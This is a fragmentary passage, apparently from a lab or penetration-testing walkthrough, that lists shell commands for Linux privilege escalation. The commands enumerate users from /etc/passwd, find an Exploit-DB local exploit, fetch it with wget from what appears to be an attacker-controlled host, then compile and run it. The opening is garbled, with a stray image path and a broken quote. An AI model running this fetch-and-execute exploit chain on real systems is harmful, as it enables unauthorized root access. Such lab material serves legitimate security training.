 ```cat /etc/passwd | grep bash``` will provide a list of users present on the system."

service apache2 start

searchsploit -p 3

cp /usr/share/exploitdb/exploits/linux/local/3.c .

wget [http://192.168.20.7/3.c](http://192.168.20.7/3.c)

gcc 3.c -o exp

./exp

whoami
```

